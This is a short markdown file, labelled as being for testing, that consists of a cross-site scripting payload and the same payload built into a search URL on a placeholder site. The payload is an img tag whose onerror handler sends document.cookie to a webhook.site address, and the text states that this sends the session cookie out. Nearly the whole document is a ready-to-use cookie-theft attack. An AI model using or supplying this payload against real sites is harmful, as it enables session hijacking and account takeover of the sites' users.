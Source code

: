 ### Just for testing purposes

Payload
```
<img src=x onerror="fetch(`https://webhook.site/3cd37862-c917-46b1-b599-ba1c624bc379?${document.cookie}`).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error));">
```

Payload integrated URL (cookie is stolen through a xss vulnerable site)
```
https://www.yoursite.com/search?term=<img src=x onerror="fetch(`https://webhook.site/3cd37862-c917-46b1-b599-ba1c624bc379?${document.cookie}`).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error));">
```

This sends session cookie to webhook site.
